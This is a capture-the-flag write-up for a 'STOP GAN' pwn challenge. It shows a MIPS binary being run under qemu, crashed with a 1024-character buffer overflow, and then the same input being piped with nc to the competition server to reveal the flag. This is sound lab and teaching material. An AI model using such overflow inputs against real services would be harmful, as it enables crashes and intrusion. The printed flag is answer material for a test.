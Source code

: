 STOP GAN (**pwn**)

    Success, you've gotten the picture of your lost love, not knowing 
    that pictures and the things you take pictures of are generally two 
    seperate things, you think you've rescue them and their brethren by 
    downloading them all to your ships hard drive. They're still being 
    eaten, but this is a fact that has escaped you entirely. Your 
    thoughts swiftly shift to revenge. It's important now to stop this 
    program from destroying these "Cauliflowers" as they're referred 
    to, ever again.
    

Zip-file contains some executable `bof` and some C source code 
`console.c`. From source code we can read that our first goal is to 
simply overflow buffer of `bof` binary, which is run by `console` 
program. Also, from `console.c` it looks like `bof` is MIPS binary, 
check it:

    $ file ./bof
    ./bof: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a31c48679f10dc6945e7b5e3a88b979bebe752e3, not stripped

Typically on x86/amd64 system you need `qemu-mipsel` to run such 
executables, and `console.c` tries to do it. But it is not necessary 
to compile `console.c`, because qemu can be invoked manually:

    $ qemu-mipsel ./bof
    Cauliflower systems never crash >>
    hello

Okay, it must be very easy just to overflow the buffer. Say, 1 kb 
should be enough in most cases:

    $ python -c "print('A'*1024)" | qemu-mipsel ./bof
    Cauliflower systems never crash >>
    qemu-mipsel: /build/qemu-DqynNa/qemu-2.8+dfsg/translate-all.c:175: tb_lock: Assertion `!have_tb_lock' failed.
    qemu-mipsel: /build/qemu-DqynNa/qemu-2.8+dfsg/translate-all.c:175: tb_lock: Assertion `!have_tb_lock' failed.
    Segmentation fault

And now we should send it to the given address (do not forget prepend 
trash with 'run' command for `console` wrapper):

    $ python -c "print('run\n'+'A'*1024)" | nc buffer-overflow.ctfcompetition.com 1337
    Your goal: try to crash the Cauliflower system by providing input to the program which is launched by using 'run' command.
     Bonus flag for controlling the crash.

    Console commands: 
    run
    quit
    >>Inputs: run
    CTF{Why_does_cauliflower_threaten_us}
    Cauliflower systems never crash >>
    segfault detected! ***CRASH***
    Console commands: 
    run
    quit
    >>
